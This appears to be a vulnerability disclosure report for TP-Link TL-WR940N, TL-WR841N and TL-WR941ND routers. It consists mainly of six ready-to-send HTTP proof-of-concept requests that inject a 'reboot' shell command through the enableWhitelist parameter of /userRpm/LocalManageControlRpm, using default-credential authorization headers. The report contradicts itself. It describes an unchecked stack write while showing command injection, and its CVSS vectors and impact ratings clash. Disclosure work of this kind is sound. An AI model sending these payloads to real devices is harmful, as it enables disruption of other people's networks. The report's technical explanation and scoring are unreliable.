





# TP-Link TL-WR941ND/TL-WR940N/TL-WR841N wireless router /userRpm/LocalManageControlRpm denial of service vulnerability

## 1 Basic Information

- Vulnerability Type: Denial of Service
- Vulnerability Description: A denial of service vulnerability exists in TP-Link TL-WR940N V2/V4/V6 and TL-WR841N V8/V10、TL-WR941ND V5 wireless router. Its /userRpm/LocalManageControlRpm component has a security vulnerability in processing enableWhitelist GET key parameters, allowing remote attackers to submit special requests through the vulnerability, causing denial of service.
- Device model:
  - TP-Link TL-WR940N V2/V4/V6、TP-Link TL-WR841N V8/V10、TP-Link TL-WR941ND V5

## 2 Vulnerability Value 

- Maturity of Public Information: None

- Order of Public Vulnerability Analysis Report: None

- Stable reproducibility: yes

- Vulnerability Score (refer to CVSS)

  - V2：[7.1 High AV:N/AC:H/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:H/Au:S/C:C/I:C/A:C))
  - V3.1：[8.6 High AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)

- Exploit Conditions

  - Attack Vector Type: Network
  - Attack Complexity: Low
  - Complexity of Exploit
    - Permission Constraints: authentication is required
    - User Interaction: No victim interaction required
  - Scope of Impact: Changed (may affect other components than vulnerable ones)
  - Impact Indicators:
    - Confidentiality: High
    - Integrity: High
    - Availability: High
  - Stability of vulnerability exploitation: Stable recurrence
  - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory

- Exploit Effect
  - Denial of Service

## 3 PoC

The PoC of TP-Link WR940N V4 is as follows:

```http
GET /WGJHXFTBPSHJAMDA/userRpm/LocalManageControlRpm.htm?enableWhitelist=1;CMD=$"reboot";$CMD&mac0=1C-BF-C0-7A-E0-03&mac1=1C-BF-C0-7A-E0-04&mac2=&mac3=&Save=Save HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://127.0.0.1:8081/WGJHXFTBPSHJAMDA/userRpm/LocalManageControlRpm.htm
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link WR940N V2 is as follows:

```http
GET /WUKQJMSAEYQDMRRC/userRpm/LocalManageControlRpm.htm?enableWhitelist=1|aaa;&mac0=7e-54-76-ee-db-12&mac1=&mac2=&mac3=&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/KMODQNKANSQJBYFA/userRpm/LocalManageControlRpm.htm
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link WR940N V6 is as follows:

```http
GET /IOCGBYQCUCBTYUKA/userRpm/LocalManageControlRpm.htm?enableWhitelist=1;CMD=$'reboot';$CMD&mac0=7e-54-76-ee-db-12&mac1=2A-6A-BC-86-FE-C2&mac2=&mac3=&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/XKZTZRGANXFYRCCA/userRpm/LocalManageControlRpm.htm
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link TL-WR941ND V5 is as follows:

```http
GET /MZKBGETBOHFWYCNC/userRpm/LocalManageControlRpm.htm?enableWhitelist=1||reboot|&mac0=7e-54-76-ee-db-12&mac1=&mac2=&mac3=&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/YOKQCLEBKGHAVJDB/userRpm/LocalManageControlRpm.htm
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1


```
The PoC of TP-Link TL-WR841N V8 is as follows:

```http
GET /userRpm/LocalManageControlRpm.htm?enableWhitelist=1;CMD=$'reboot';$CMD&mac0=F6-33-2C-E7-94-C3&mac1=&mac2=&mac3=&Save=Save HTTP/1.1
Host: 0.0.0.0:49168
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://0.0.0.0:49168/userRpm/LocalManageControlRpm.htm
Cookie: Authorization=
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link TL-WR841N V10 is as follows:

```http
GET /BTYXMWXBISLZRVGB/userRpm/LocalManageControlRpm.htm?enableWhitelist=1$(reboot)&mac0=1C-BF-C0-7A-E0-04&mac1=7E-F8-60-02-2E-B8&mac2=&mac3=&Save=Save HTTP/1.1
Host: 127.0.0.1:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://127.0.0.1:8081/BMKHACLAYMEWMEQA/userRpm/LocalManageControlRpm.htm
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```

## 4 Vulnerability Principle

When the Web management component receives a GET request, its /userRpm/LocalManageControlRpm component has a security vulnerability in processing the enableWhitelist GET key parameter. The enableWhitelist parameter itself is put into the stack without being checked, resulting in a denial of service. An attacker exploits this vulnerability to construct a payload of the enableWhitelist parameter, so that the carefully constructed parameter causes a denial of service. Attackers can directly achieve the effect of denial of service by exploiting this vulnerability.

The firmware simulation process and interface are as follows:







After sending the constructed PoC, denial of service occurred.





## 5. The basis for judging as a 0-day vulnerability

Searching the LocalManageControlRpm keyword in the NVD database did not find any vulnerabilities; searching the parameter enableWhitelist keyword in the NVD database did not find any vulnerabilities, so it is considered a 0-day vulnerability.